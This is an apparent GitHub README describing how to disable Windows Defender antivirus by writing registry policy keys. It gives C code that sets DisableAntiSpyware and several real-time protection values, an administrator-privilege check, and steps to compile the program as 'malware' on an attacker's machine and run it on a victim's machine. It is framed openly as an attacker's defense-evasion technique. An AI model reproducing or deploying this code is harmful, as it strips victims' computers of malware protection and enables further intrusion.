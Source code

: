 # Disable-Windows-defender
Disable Windows Defender Antivirus via modifying Windows registry


To disable all this you just need to modify the registry keys:

LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);

if (res == ERROR_SUCCESS) {

  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  
  RegCloseKey(new_key);
}


Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges. All processes (including the Windows explorer - explorer.exe) are launched using the standard token, which restricts the process’s rights and privileges. If the user desires elevated privileges, he may select “run as Administrator” to execute the process. This opt-in grants the process all administrative privileges and rights. A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is “run as Administrator” in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So we must create a function which is responsible to check the current privilege on the process:

bool isUserAdmin()

the IsUserAnAdmin function from the Windows API. This function returns a nonzero value if the current process is running with administrative 
privileges, and a zero value if the current process is not running with administrative privileges.
This code uses the CheckTokenMembership function to check if the current process is a member of the built-in administrators group. If the 
function returns a nonzero value, it means that the current process is running with administrative privileges. If the function returns a zero 
value, it means that the current process is not running with administrative privileges.



Befor Run the C source compiled file, first we wanna go to check the check registry keys:

reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s

![image](https://user-images.githubusercontent.com/68971838/209835454-b706af21-bf72-439d-b62f-d44c48caddce.png)

As see the following they are set to 0, which mean is enabled 


Then, let’s go to compile our script from attacker’s machine: And run it on the victim’s machine:

gcc disableWINDEF.c -o malware


run
![image](https://user-images.githubusercontent.com/68971838/209838925-3bee003a-d0cf-4881-a199-8770e115d674.png)

Again check:

![image](https://user-images.githubusercontent.com/68971838/209839187-948c60db-b831-42a0-8919-96c9752a069d.png)

The values now is 0x1 which mean is disabled :

![image](https://user-images.githubusercontent.com/68971838/209839384-103758e1-12c8-4d79-a8b0-6c2f2d76437d.png)


But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.



:)
